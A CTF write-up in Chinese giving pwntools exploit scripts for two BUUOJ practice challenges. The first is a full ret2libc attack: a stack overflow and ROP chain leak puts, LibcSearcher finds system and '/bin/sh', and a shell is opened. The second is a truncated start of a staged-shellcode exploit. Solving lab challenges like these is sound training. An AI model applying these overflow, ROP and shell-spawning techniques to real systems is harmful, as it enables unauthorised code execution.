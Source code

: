 # buu091-axb_2019_brop64
直接溢出。~~(怎么都90多题了还是这种简单题……)~~
```python
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'
context.arch = 'amd64'

poprdi_ret = 0x400963

# io = process('./axb_2019_brop64')
io = remote('node4.buuoj.cn', 27602)
elf = ELF('./axb_2019_brop64')

payload = cyclic(0xD0 + 8)
payload += p64(poprdi_ret)
payload += p64(elf.got['puts'])
payload += p64(elf.plt['puts'])
payload += p64(elf.symbols['repeater'])

io.sendlineafter(b'Please tell me:', payload)
io.recvuntil(b'\x09\x40')
puts = u64(io.recv(6) + b'\x00\x00')
print(hex(puts))
libc = LibcSearcher('puts', puts)
base = puts - libc.dump('puts')
system = base + libc.dump('system')
binsh = base + libc.dump('str_bin_sh')
print(hex(base))
print(hex(system))

payload = cyclic(0xD0 + 8)
payload += p64(poprdi_ret)
payload += p64(binsh)
payload += p64(system)

io.sendlineafter(b'Please tell me:', payload)

io.interactive()
```

# buu092-[极客大挑战 2019]Not Bad
这题考察shellcode，由于给定的写长度不够，可以采用边写边执行的方式，增加可写代码的长度。
```python
from pwn import *
context.log_level = 'debug'
context.arch = 'amd64'

# io = process('./bad')
io = remote('node4.buuoj.cn', 28044)
elf = ELF('./bad')

poprdi_ret = 0x400b13

shellcode_1 = '\
	.1:\
	nop; nop; nop; nop; nop; nop; nop; nop; nop; nop; nop; nop; nop; nop; nop; nop; \
	nop; nop; nop; nop; nop; nop; nop; nop; nop; nop; nop; nop; nop; nop; nop; nop; \
	nop; nop; nop; nop; nop; nop; nop; nop; \
	jmp .1\
'
```